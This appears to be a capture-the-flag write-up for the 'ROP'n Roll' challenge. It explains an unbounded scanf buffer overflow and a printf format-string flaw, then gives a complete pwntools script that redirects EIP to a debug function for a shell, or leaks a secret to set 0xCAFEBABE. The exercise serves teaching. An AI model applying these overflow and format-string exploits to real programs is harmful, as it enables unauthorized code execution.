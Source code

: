 # ROP'n Roll

### Summary

There are two exploitable bugs in the binary which we can leverage to get our flag. In the `start_game()` function we can see that **scanf()** is used without specifying the amount of data to read in Ex: **scanf("%s", buff)** instead of **scanf("%25s", buff)**. This can result in a *buffer-overflow vulnerability*, 
we can also see the same bug in the function `Guess_secret()` but to get to that code path we first have to correctly guess the secret value. If we look at how the program handles our guesses (input) we see that the **printf()** function is being used incorrectly *Ex:* **printf(buff)** this can lead to a *format-string vulnerability*
Now that we know the bugs present in the binary we can use one of the two exploitation strategies

**Get Shell**
- Reverse the Key generation algorithm and retrieve our key
- exploit the scanf bug in the `start_game()` function to overflow EIP
- Let EIP point to our `Enter_Debug()` function with the key as an argument

**Print Flag**
- Leak the secret value by supplying **%s** as input when asked for the secret
- exploit the **scanf()** bug to overflow into the variable
- make the variable hold the value `0xCAFEBABE`


```python

#!/usr/bin/env python3

import argparse
import yaml
import logging
from pwn import *
from pathlib import Path



logger = logging.getLogger("secretary")

# Load the flag dynamically from the meta file
HERE = Path(__file__).parent
FLAG = yaml.safe_load(open(HERE / "meta.yml"))["flags"]

class Exploit:
    FLAG = 1   # used as a constant for determining exploit type
    SHELL = 2  # used as a constant for determining exploit type

    def __init__(self, sh = None, binary = None):
        self.sh = sh
        self.binary = binary

    def Get_shell(self, key: int):
        padding = 62
        ROP_Chain = [
                b"\x90"*padding,
                p32(self.binary.sym.Enter_Debug),
                b"\x90"*4,
                p32(key)
                ]
        self.sh.sendlineafter("#>", b''.join(ROP_Chain))
        self.sh.interactive()

    def Leak_secret(self):
        self.sh.sendlineafter(b"#>", b"3")
        self.sh.sendlineafter(b": ", b"%s")
        self.sh.recvuntil(b": ")
        secret = self.sh.recvline().decode().strip()
        return secret

    def Get_flag_fstring(self):
        secret = self.Leak_secret()
        self.sh.sendlineafter(b":", secret)
        self.sh.sendlineafter(b": ", b"A"*20 + p32(0xCAFEBABE))
        self.sh.interactive()

    def Gen_Key(self):
        key = None
        for _ in range(0xfff):
            sum_ = ((2*(0xBEEF) ^ 0x16) * _) >> 0x10
            if sum_ == 1337:
                key = _
        return key




def solve(sh, method=None):
    binary = context.binary = ELF("./chal", checksec=False)
    exploit = Exploit(sh, binary)

    if method == Exploit.SHELL:
        exploit.Get_shell(exploit.Gen_Key())
    elif method == Exploit.FLAG:
        exploit.Get_flag_fstring()


def test(domain, port, method=None):
    sh = remote(domain, port)
    solve(sh, method)



if __name__ == "__main__":
    logging.basicConfig(level=logging.DEBUG)
    parser = argparse.ArgumentParser()
    parser.add_argument("domain", default="0.0.0.0", nargs="?")
    parser.add_argument("port", default=1337, type=int, nargs="?")
    parser.add_argument("--flag", action="store_true", help="Exploit using format string method")
    parser.add_argument("--shell", action="store_true", help="Exploit using Ret2win")
    args_argparse = parser.parse_args()

    if args.REMOTE:
        if args_argparse.flag:
            test(args_argparse.domain, args_argparse.port, Exploit.FLAG)
        elif args_argparse.shell:
            test(args_argparse.domain, args_argparse.port, Exploit.SHELL)
    else:
        sh = process("./chal")
        if args_argparse.flag:
            solve(sh, Exploit.FLAG)
        elif args_argparse.shell:
            solve(sh, Exploit.SHELL)
        else:
            log.warning("Missing an Exploit Method")
            log.warning("Available Methods: --flag,--shell")

```
